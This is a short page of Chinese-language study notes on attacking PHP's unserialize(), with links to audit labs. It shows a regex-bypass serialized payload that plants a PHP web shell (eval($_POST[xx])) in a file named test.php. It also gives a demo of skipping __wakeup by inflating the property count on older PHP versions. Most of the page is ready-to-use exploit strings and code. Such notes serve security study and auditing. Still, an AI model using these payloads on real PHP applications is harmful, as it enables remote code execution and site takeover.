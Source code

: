 ## unserialize

参考文章：
- https://github.com/hongriSec/PHP-Audit-Labs/blob/master/Part1/Day11/files/README.md
- https://secure.php.net/manual/zh/function.unserialize.php
- https://www.cnblogs.com/Mrsm1th/p/6835592.html

函数结构：
```php
unserialize ( string $str ) : mixed
```

## O类绕过

可以绕过正则检测：
```
a:1:{i:0;O:+8:"Template":2:{s:9:"cacheFile";s:10:"./test.php";s:8:"template";s:25:"<?php eval($_POST[xx]);?>";}}
```
增加了一个`+`
```php
print_r(unserialize('a:1:{i:0;O:+8:"Template":2:{s:9:"cacheFile";s:10:"./test.php";s:8:"template";s:25:"<?php eval($_POST[xx]);?>";}}'));
```

## wakeup绕过
（PHP before 5.6.25 and 7.x before 7.0.10）  
表示属性的个数大于真实的个数时，wakep魔术方法不会被执行，官方demo  
demo.php
```php
<?php
class test{
	public $a;
	public $b;
	public function __construct($bb){
		$this->a='1';
		$this->b=$bb;
		echo "__construct"."\n";
	}
	public function __sleep(){
		echo "sleep"."\n";
		return array('a');
	}
	public function __wakeup(){
		echo "wakeup"."\n";
	}
	public function __destruct(){
		echo $this->a;
		echo "__destruct"."\n";
	}
}
$a=new test('b');
$ar = serialize($a);
echo $ar."\n";
echo "111111"."\n";
print_r(@unserialize('O:4:"test":2:{s:1:"a";s:1:"1";}'));
?>
```